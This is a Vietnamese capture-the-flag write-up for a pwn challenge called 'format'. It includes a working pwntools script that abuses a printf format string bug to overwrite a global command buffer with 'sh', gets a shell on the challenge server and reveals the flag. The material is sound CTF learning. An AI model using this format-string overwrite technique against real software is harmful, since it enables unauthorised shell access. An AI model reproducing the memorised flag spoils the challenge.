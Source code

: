 # format.
## Hướng giải.
![1702834490900](image/format/1702834490900.png)
![1702834566724](image/format/1702834566724.png)
- chall này có lỗi `format strings` và cũng có sẵn `system` , nhưng mà nó lại thực hiện cmd như trên hình bạn thấy , chall này khá dễ nhưng mà mình mò tận 4 tiếng :( . Vì có `format strings` nên ta có thể ghi đè , ta sẽ ghi đè cmd bằng lệnh `/bin/sh\0` , nhưng mà `/bin/sh\0` tới 8 byte đó điều ko thể , thế nên ta sẽ thay thế nó bằng lệnh `sh` ngắn hơn và phù hợp hơn.
- Vào check gdb thì ta thấy `pie` tắt thế nên địa chỉ ta ko cần leak.
![1702835094534](image/format/1702835094534.png)
- Địa chỉ của `cmd`
![1702835150588](image/format/1702835150588.png)
- Ta tiến hành viết script thui :
```
#!/usr/bin/python3

from pwn import *

exe = ELF('format', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x00000000004011f6
                b*0x0000000000401223
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('103.162.14.116',12001)
else:
        p = process(exe.path)

GDB()
binsh = u64(b'sh\0\0\0\0\0\0')
print(binsh)
payload = f'%{0x006873}c%10$n'.encode()
payload = payload.ljust(0x10)
payload += p64(0x404060)
s(payload)
p.interactive()
```
- Script hoàn thành như trên để chuỗi `sh` có thể tạch biệt với chuỗi đã có trước nên mình thêm vào 1 byte `0x00` để `system` có thể thực thi `sh`
- Chạy script trên là ta đã thu được shell.
![1702835408733](image/format/1702835408733.png)
- Và ồ ta phải tự kiếm flag ròi , mình xài lệnh `find . -name flag` để kiếm dễ dàng hơn và cat flag thui.
![1702835499014](image/format/1702835499014.png)
`FLAG: KCSC{F1rs1_Pr0b13m_w1Th_pR1Ntf}`
